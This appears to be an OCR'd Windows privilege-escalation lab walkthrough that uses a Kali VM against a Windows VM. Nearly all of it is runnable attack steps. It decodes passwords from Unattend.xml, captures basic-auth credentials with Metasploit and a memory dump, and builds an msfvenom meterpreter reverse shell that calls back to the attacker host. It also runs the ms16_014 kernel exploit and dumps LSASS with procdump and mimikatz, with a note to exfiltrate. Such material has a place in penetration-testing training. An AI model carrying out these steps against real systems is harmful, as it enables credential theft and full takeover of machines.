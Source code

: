 * Exploitation
* Windows VM
* Open command prompt and type: notepad C:\Windows\Panther\Unattend.xml
* Scroll down to the `"<Password>"` property and copy the base64 string that is confined between the `"<Value>"` tags underneath it.
* Kali VM
* In a terminal, type: `echo [copied base64] | base64 -d`
* Notice the cleartext password

### Password Mining Escalation Memory

* Exploitation
* Kali VM
* Open command prompt and type: `msfconsole`
* In Metasploit (msf > prompt) type: `use auxiliary/server/capture/http_basic`
* In Metasploit (msf > prompt) type: `set uripath x`
* In Metasploit (msf > prompt) type: `run`
* Windows VM
* Open Internet Explorer and browse to: `http://[Kali VM IP Address]/x`
* Open command prompt and type: taskmgr
* In Windows Task Manager, right-click on the `iexplore.exe` in the `Image Name` columnand select `Create Dump File` from the popup menu.
* Copy the generated file, `iexplore.DMP`, to the Kali VM.
* Kali VM
* Place `iexplore.DMP` on the desktop.
* Open command prompt and type: strings `/root/Desktop/iexplore.DMP | grep "Authorization: Basic"`
* Select the Copy the Base64 encoded string.
* In command prompt type: `echo -ne [Base64 String] | base64 -d`
* Notice the credentials in the output.

### Kernal Exploits

* Establish a shell
* Kali VM
* Open command prompt and type: `msfconsole`
* In Metasploit (msf > prompt) type: `use multi/handler`
* In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp`
* In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`
* In Metasploit (msf > prompt) type: `run`
* Open an additional command prompt and type: `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe > shell.exe`
* Copy the generated file, `shell.exe`, to the Windows VM.
* Windows VM
* Execute `shell.exe` and obtain reverse shell
* Detection & Exploitation
* Kali VM
* In Metasploit (msf > prompt) type: `run post/multi/recon/local_exploit_suggester`
* Identify `exploit/windows/local/ms16_014_wmi_recv_notif as a potential privilege escalation`
* In Metasploit (msf > prompt) type: `use exploit/windows/local/ms16_014_wmi_recv_notif`
* In Metasploit (msf > prompt) type: `set SESSION [meterpreter SESSION number]`
* In Metasploit (msf > prompt) type: `set LPORT 5555`
* In Metasploit (msf > prompt) type: `run`

### LSASS Credential Dumping

* use `procdump`&#x20;

```
procdump.exe -accepteula -ma lsass.exe C:\Users\Administrator\Desktop\lsass.dmp
#either exfil or perform locally 
mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonpasswords
```
